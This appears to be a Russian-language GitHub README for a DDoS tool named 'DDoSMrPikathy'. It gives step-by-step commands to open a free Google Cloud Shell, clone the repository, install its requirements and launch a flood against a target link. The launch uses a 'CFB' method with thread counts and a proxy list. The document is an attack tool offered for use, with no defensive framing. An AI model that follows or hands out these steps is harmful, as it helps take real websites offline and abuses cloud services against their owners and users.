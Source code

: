 # DDoSMrPikathy
Для работы данного скрипта вам нужно будет перейти на бесплатный SHELL.
- https://shell.cloud.google.com

Написать следующие команды:

- git clone https://github.com/MrPikathy/DDoSMrPikathy.git
- ls
- cd DDoSMrPikathy
- pip3 install -r requirements.txt
- python3 start.py

Запуск ддоса:

- python3 start.py CFB Ссылка 1 1000 http.txt 1000 1000
